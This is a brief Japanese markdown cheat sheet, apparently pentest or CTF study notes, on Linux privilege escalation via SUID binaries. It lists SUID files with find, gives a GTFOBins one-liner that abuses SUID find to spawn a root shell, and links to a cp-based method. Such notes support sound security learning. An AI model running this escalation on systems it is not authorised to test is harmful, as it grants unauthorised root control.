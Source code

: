 # SUID

* SUIDが付与されいているコマンドを列挙する

  ```bash
  find / -perm -u=s -type f 2>/dev/null
  
  /bin/umount
  /bin/su
  /bin/mount
  /usr/bin/passwd
  /usr/bin/newgrp
  /usr/bin/chsh
  /usr/bin/gpasswd
  /usr/bin/find
  /usr/bin/chfn
  /usr/bin/gawk
  /usr/bin/vim.basic
  /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  /usr/lib/openssh/ssh-keysign
  ```

* 以下のサイトから特権昇格可能かどうかを確認する

  https://gtfobins.github.io/gtfobins/find/

  ```bash
  find . -exec /bin/sh -p \; -quit
  ```

  

* cpコマンドのSUIDでの特権昇格方法

  https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/